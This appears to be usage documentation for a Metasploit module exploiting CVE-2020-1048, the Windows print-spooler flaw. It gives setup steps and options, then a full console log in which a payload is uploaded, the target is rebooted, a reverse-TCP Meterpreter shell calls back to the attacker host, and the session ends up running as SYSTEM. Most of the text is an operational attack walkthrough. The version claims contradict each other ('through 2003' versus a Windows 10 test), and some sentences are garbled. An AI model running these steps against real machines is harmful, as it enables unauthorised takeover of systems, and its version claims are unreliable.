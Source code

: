 ## Vulnerable Application

Vulnerable versions for exploit
All unpatched windows through version 2003

### Introduction

This exploit relies on a bug where you can create a virtual printer
and print to trusted locations on the filesystem.  If a user chooses the
default overwrite, it may create a permanent backdoor.

Basically, this exploit creates a print job that writes to a trusted
location.  By selecting the location ```C:\windows\system32\ualapi.dll```
we abuse the spooler service twice.  The spooler will print to this
location when it restarts, then it will load the DLL into itself when it
restarts a second time.  The DLL will then be running as ```SYSTEM```.

When the printer is created, the target will show a pop-up saying a
printer was created.
A larger issue here is that the Spooler service does not like to stop.
Trying `sc stop` Spooler does not stop the spooler.
Killing the pid with a trusted process will kill it, but it restarts
automatically.
Using the `pendingFileRenameOperations` registry key also does not appear
to work.

## Verification Steps

 Start ```msfconsole```
 get session on a windows target that is not patched (and <= 2003)
 ```use windows/local/cve_2020_1048_printerdemon```
 ```set session <session>```
 ```set payload <payload>```
 ```set lhost <lhost>```
 ```set lport <lport>```
 ```run```
 Verify target reboots automagically if 
 reboot target again (yest it has to reboot again
 Verify you get a session

## Options

  **EXECUTE_DELAY**
  The time between uploading and running the exploit.  Default is 3
  seconds, but high-latency networks may require more time.

  **EXPLOIT_NAME**
  The name of the when it is uploaded to the target (%RAND% by default).
  
  **EXPLOIT_DIR**
  Directory to use for file upload and linking; this should not already
  exist. (%RAND% by default)

  **OVERWRITE_DLL**
  The remote location you would like to write to.  Default is
  ```C:\windows\system32\ualapi.dll```

  **PAYLOAD_NAME**
  The filename to use for the payload binary (%RAND% by default).
  This is the name of the dll payload when uploaded to the remote host.

  **RESTART_TARGET**
  This will restart the target to force the overwrite.  YOU WILL LOSE
  YOUR SESSION unless you have a method of persistence.
  The dll will not be run until a second reboot.

  **WRITEABLE_DIR**
  The directory to use the payload binary and uploaded payload.
  (%RAND% by default).

## Scenarios

### Tested on Windows10 x64 Release 1903

  ```
msf payload(windows/x64/meterpreter/reverse_tcp) > to_handler
[*] Payload Handler Started as Job 2

[*] Started reverse TCP handler on 192.168.135.197:5555 
msf payload(windows/x64/meterpreter/reverse_tcp) > [*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 2 opened (192.168.135.197:5555 -> 192.168.132.134:49675) at 2020-08-24 12:15:07 -0500

msf payload(windows/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-CL5L2IH\msfuser
meterpreter > getsystem
[-] 2001: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 2...
msf payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/local/cve_2020_1048_printerdemon 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2020_1048_printerdemon) > show options

Module options (exploit/windows/local/cve_2020_1048_printerdemon):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   EXECUTE_DELAY   3                yes       The number of seconds to delay between file upload and exploit launch
   EXPLOIT_NAME                     no        The filename to use for the exploit binary (%RAND% by default).
   OVERWRITE_DLL                    no        Filename to overwrite (%WINDIR%\system32\ualapi.dll by default).
   PAYLOAD_NAME                     no        The filename for the payload to be used on the target host (%RAND%.dll by default).
   RESTART_TARGET  true             yes       Restart the target after exploit (you will lose your session until a second reboot).
   SESSION         1                yes       The session to run this module on.
   WRITABLE_DIR                     no        Path to write binaries (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.197  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf exploit(windows/local/cve_2020_1048_printerdemon) > set verbose true
verbose => true
msf exploit(windows/local/cve_2020_1048_printerdemon) > set disablepayloadhandler false
disablepayloadhandler => false
msf exploit(windows/local/cve_2020_1048_printerdemon) > set wfsdelay 600
wfsdelay => 600
msf exploit(windows/local/cve_2020_1048_printerdemon) > run

msf exploit(windows/local/cve_2020_1048_printerdemon) > set session 2
session => 2
msf exploit(windows/local/cve_2020_1048_printerdemon) > run

[*] Started reverse TCP handler on 192.168.135.197:4444 
[*] Checking Target
[*] Attempting to PrivEsc on DESKTOP-CL5L2IH via session ID: 2
[*] Build Number = 18362
[*] Uploading Payload
[*] Payload (5120 bytes) uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\UCPNtlof
[!] This exploit requires manual cleanup of the payload C:\Users\msfuser\AppData\Local\Temp\UCPNtlof
[*] Sleeping for 3 seconds before launching exploit
[*] Uploading exploit to DESKTOP-CL5L2IH as C:\Users\msfuser\AppData\Local\Temp\JkrbEDShseh.exe
[*] Exploit uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\JkrbEDShseh.exe
[*] Running Exploit
[*] Exploit output:
Printer created successfully
[*] Rebooting DESKTOP-CL5L2IH
[*] 192.168.132.134 - Meterpreter session 2 closed.  Reason: Died
```

After the auto-reboot, reboot again.
The first reboot performs the overwrite; the second loads the dll.

```
[*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 3 opened (192.168.135.197:4444 -> 192.168.132.134:49669) at 2020-08-24 12:19:49 -0500

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```
